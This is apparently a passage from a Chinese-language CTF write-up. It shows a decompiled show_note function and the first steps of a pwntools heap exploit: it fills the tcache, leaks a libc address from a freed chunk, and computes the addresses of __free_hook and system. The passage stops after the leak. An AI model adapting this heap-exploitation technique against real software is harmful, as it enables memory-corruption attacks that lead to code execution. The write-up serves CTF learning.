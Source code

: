 ```plain
}
```

```plain
unsigned __int64 __fastcall show_note(const char *a1)
{
  unsigned int v2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v2);
  if ( v2 <= 0xF )
  {
    if ( *((_QWORD *)&notes + v2) )
      puts(*((const char **)&notes + v2));
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

没有什么限制，也比较好分析

### 思路

基本上和上面的利用姿势是一致的

### 详细流程

```plain
for i in range(7):
    add(i,0x80,'a')

add(7,0x80,'a')
add(8,0x80,'a')
add(9,0x20,'b')

for i in range(7):
    delete(i) 

delete(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
__free_hook=libc_base+libc.sym["__free_hook"]
system_addr=libc_base+libc.sym["system"]
leak("libc_base ",libc_base)
```
